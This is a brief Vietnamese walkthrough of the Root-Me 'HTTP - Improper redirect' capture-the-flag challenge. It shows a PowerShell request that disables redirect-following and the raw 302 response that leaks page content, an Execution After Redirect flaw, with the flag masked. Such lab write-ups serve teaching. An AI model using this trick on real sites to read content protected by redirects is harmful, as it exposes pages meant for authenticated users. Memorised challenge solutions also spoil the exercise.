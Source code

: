 # HTTP - Improper redirect

## Solution

- Khi bắt đầu đọc mô tả và tiêu đề, có một `improper redirect`

- Lời giải rất dễ, cần sử dụng `invoke-webrequest` với tùy chọn `MaximumRedirection` được đặt thành 0

```
(invoke-webrequest -uri "http://challenge01.root-me.org/web-serveur/ch32/"  -MaximumRedirection 0).rawContent
```

- Bây giờ đã có flag!

```
HTTP/1.1 302 Found
Transfer-Encoding: chunked
Connection: keep-alive
Content-Type: text/html; charset=UTF-8
Date: Sat, 29 Dec 2018 23:02:20 GMT
Location: ./login.php?redirect
Server: nginx

<html>
<body><link rel='stylesheet' property='stylesheet' id='s' type='text/css' href='/template/s.css' media='all' /><iframe id='iframe' src='https://www.root-me.org/?page=externe_header'
></iframe>
<h1>Welcome !</h1>

<p>Yeah ! The redirection is OK, but without exit() after the header('Location: ...'), PHP just continue the execution and send the page content !...</p>
<p><a href="http://cwe.mitre.org/data/definitions/698.html">CWE-698: Execution After Redirect (EAR)</a></p>
<p>The flag is : ****</p>
</body>
</html>
```